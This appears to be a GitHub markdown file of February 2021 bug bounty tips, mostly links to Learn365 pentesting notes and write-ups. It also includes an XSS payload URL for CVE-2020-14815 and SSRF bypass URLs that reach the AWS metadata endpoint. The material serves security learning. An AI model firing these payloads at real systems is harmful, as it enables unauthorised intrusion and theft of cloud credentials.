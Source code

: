 # Bug Bounty Tips - February 2021

# 📅 02-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 32
- [Pentesting Kibana Service ](https://github.com/harsh-bothra/learn365/blob/main/days/day32.md)

## OSCP Preparation
- [All about OSCP](https://oscp.infosecsanyam.in/)
- [OSCP Cheat Sheet](https://www.bytefellow.com/oscp-ultimate-cheatsheet/)

# 📅 03-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 33
- [Pentesting Docker Registry](https://github.com/harsh-bothra/learn365/blob/main/days/day33.md)

# 📅 04-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 34
- [HTML Scriptless Attacks / Dangling Markup Attacks (Part - 1)](https://github.com/harsh-bothra/learn365/blob/main/days/day34.md)


# 📅 05-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 35
- [HTML Scriptless Attacks / Dangling Markup Attacks (Wrap)](https://github.com/harsh-bothra/learn365/blob/main/days/day35.md)

# 📅 06-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 36
- [Pentesting Rsync Service](https://github.com/harsh-bothra/learn365/blob/main/days/day36.md)

# 📅 07-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 37
- [CRLF Injection](https://github.com/harsh-bothra/learn365/blob/main/days/day37.md)

# 📅 08-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 38
- [Pentesting FTP Service](https://github.com/harsh-bothra/learn365/blob/main/days/day38.md)

# 📅 09-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 39
- [OpenID Connect Implementation Issues](https://github.com/harsh-bothra/learn365/blob/main/days/day39.md)

## CVE-2020-14815 
```text
https://target[.]com/bi-security-login/login.jsp?msi=false&redirect="><img/src/onerror%3dalert(document.domain)>
```
![img](https://pbs.twimg.com/media/Emox1wcXIAAabpt?format=png&name=900x900)

**Source: https://twitter.com/HackerOn2Wheels/status/1326927875279380480?s=20**

# 📅 10-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 40
- [Cookie Based Authentication Vulnerabilities](https://github.com/harsh-bothra/learn365/blob/main/days/day40.md)

# 📅 11-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 41
- [Cobalt Vulnerability Wiki](https://cobalt.io/vulnerability-wiki/)

## XSS on Public program
- [Reflected XSS on Public Program](https://thevillagehacker.medium.com/reflected-xss-on-a-public-program-e8c0416daca1)

## Account TakeOver on online store
- [Account Take Over](https://thevillagehacker.medium.com/account-take-over-due-to-no-rate-limitation-433bd7449aca)

# 📅 12-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 42
- [Race Condition](https://github.com/harsh-bothra/learn365/blob/main/days/day42.md)

# 📅 13-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 43
- [SMTP Open Relay Attack](https://github.com/harsh-bothra/learn365/blob/main/days/day43.md)

# 📅 14-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 44
- [Pentesting BACNet](https://github.com/harsh-bothra/learn365/blob/main/days/day44.md)

## POST Message Logger
- [Post Message Logger](https://github.com/thevillagehacker/My-Presentation-Slides)

# 📅 15-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 45
- [API Security Tips](https://github.com/inonshk/31-days-of-API-Security-Tips)

## SSRF AWS Bypasses to access metadata endpoint
- with Decimal IP: `http://2852039166/latest/meta-data/`
- IPV6 Compressed: `http://[::ffff:a9fe:a9fe]/latest/meta-data/`
- IPV6 Expanded: `http://[0:0:0:0:0:ffff:a9fe:a9fe]/latest/meta-data/`

# 📅 16-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 46
- [SSH (Secure Shell) ](https://youtu.be/IdL7WU0UU2Q)

## Kubernetes Pentest Methodology
- https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-1
- https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-2
- https://securityboulevard.com/2019/11/kubernetes-pentest-methodology-part-3/

# 📅 17-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 47
- [CORS Misconfiguration](https://github.com/harsh-bothra/learn365/blob/main/days/day47.md)

## Account Take Over due to IDOR via Websockets
- https://mokhansec.medium.com/idor-via-websockets-allow-me-to-takeover-any-users-account-23460dacdeab

## Stored XSS in icloud.com
- https://vbharad.medium.com/stored-xss-in-icloud-com-5000-998b8c4b2075
